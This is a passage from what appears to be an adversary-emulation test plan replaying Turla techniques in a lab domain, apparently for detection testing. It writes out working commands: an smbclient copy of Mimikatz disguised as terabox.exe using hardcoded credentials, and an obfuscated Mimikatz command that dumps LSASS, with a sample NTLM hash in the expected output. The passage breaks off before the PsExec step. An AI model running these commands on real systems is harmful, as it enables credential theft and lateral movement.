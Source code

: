 ## Test 5: Mimikatz and PsExec of 3rd Carbon Installer

:microphone: `Voice Track:`

Test 5 emulates Turla downloading and executing Mimikatz as `terabox.exe` in
order to perform lateral movement to a second workstation in the domain.

---

### ☣️ Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
Mimikatz to `bannik (10.20.10.9)`:

```bash
cd /opt/day1/turla/Resources/payloads/carbon
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put mimikatz.exe Windows\System32\terabox.exe'
```

:arrow_right: Return to your RDP session to `bannik (10.20.10.9)` as `Frieda`.

* Open File Explorer and browse to `C:\Windows\System32`. Order the files by
date.

* Open an elevated Windows Command Prompt and execute the following
command to dump LSASS:

NOTE: This command varies slightly from the Detections scenario with the
addition of `privilege::debug` since we are not executing from SYSTEM
context.

```bat
C:\Windows\System32\terabox.exe "pr::d" "lsdu::go /ynot" "quit"
```

* :heavy_exclamation_mark: Verify that the NTLM hash for `adalwolfa` is included
in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `NTLM : 07d128430a6338f8d537f6b3ae1dc136`
  * The output should contain:
>
* > ```text
    > RID  : 00000456 (1110)
    > User : Adalwolfa
    >
    > * Primary
    >     NTLM : 07d128430a6338f8d537f6b3ae1dc136
    >     LM   : 
    > Hash NTLM: 07d128430a6338f8d537f6b3ae1dc136
    >     ntlm- 0: 07d128430a6338f8d537f6b3ae1dc136
    >     lm  - 0: 95b8536c32208871930216e62d5e12d4
    >    ```

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
PsExec and the 3rd Carbon installer to `bannik (10.20.10.9)`:
